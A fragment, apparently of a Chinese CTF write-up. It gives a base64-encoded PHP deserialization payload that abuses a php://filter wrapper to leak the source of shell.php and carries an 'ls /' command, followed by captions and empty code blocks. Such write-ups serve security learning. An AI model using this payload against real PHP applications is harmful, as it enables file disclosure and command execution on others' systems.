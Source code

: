 `  
`

``

`蟒蛇`

``

    
    
    1  
    

|

    
    
    Tzo0OiJHYW1lIjo3OntzOjg6InVzZXJuYW1lIjtzOjU6ImFkbWluIjtzOjg6InBhc3N3b3JkIjtzOjU6ImFkbWluIjtzOjY6ImNob2ljZSI7TjtzOjg6InJlZ2lzdGVyIjtzOjU6ImFkbWluIjtzOjQ6ImZpbGUiO086NDoiT3BlbiI6MDp7fXM6ODoiZmlsZW5hbWUiO3M6NTQ6InBocDovL2ZpbHRlci9yZWFkPWNvbnZlcnQuYmFzZTY0LWVuY29kZS9yZXNvdXJjZT1zaGVsbCI7czo3OiJjb250ZW50IjtzOjQ6ImxzIC8iO30 =  
      
  
---|---  
  
`  
`

`执行payload读取到shell.php的源码base64编码：`

`![](https://gitee.com/fuli009/images/raw/master/public/20210826084302.png)`

`解码得到shell.php的源码：`

`  
`

``

`PHP`

``

    
    
    1   
    2   
    3   
    4   
    5   
    6   
    7   
    8   
    9   
    10   
    11   
    12  
    

|
